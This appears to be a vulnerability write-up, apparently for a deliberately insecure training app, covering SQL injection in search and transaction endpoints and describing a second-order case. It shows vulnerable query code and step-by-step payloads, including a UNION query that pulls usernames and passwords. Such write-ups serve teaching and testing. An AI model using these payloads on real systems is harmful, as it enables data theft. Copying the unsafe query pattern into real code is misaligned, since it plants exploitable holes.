 ## Injection Vulnerabilities

### 1. SQL Injection in Search Function

**Description**: The search endpoint is vulnerable to SQL injection, allowing an attacker to execute arbitrary SQL commands.

**Location**: `/api/search` endpoint in `server.js`

**Vulnerable Code**:
```javascript
const query = `SELECT id, username, email FROM users WHERE username LIKE "%${term}%" OR email LIKE "%${term}%"`;
```

**How to Exploit**:
1. Log in to the application
2. Navigate to the search function
3. Enter a payload like: `" OR 1=1 --`
4. Submit the search form

**More Advanced Exploitation**:
1. Use UNION attacks to extract additional data:
   ```
   " UNION SELECT id, username, password FROM users --
   ```
   This returns all usernames and passwords directly in the search results

### 2. SQL Injection in Transaction History

**Description**: The transactions endpoint is vulnerable to SQL injection through the user_id parameter.

**Location**: `/api/transactions` endpoint in `server.js`

**Vulnerable Code**:
```javascript
const query = `
  SELECT * FROM transactions 
  WHERE sender_id = ${user_id} OR receiver_id = ${user_id}
  ORDER BY date DESC
`;
```

**How to Exploit**:
1. Intercept the request to `/api/transactions?user_id=2` using a proxy tool
2. Modify the user_id parameter to: `2 OR 1=1`
3. This will return all transactions in the database, not just those for user_id=2

### 3. Blind Second-Order SQL Injection

**Description**: The profile update feature stores user input without sanitization, which is later used in another SQL query executed by an admin report. This creates a blind second-order SQL injection vulnerability.
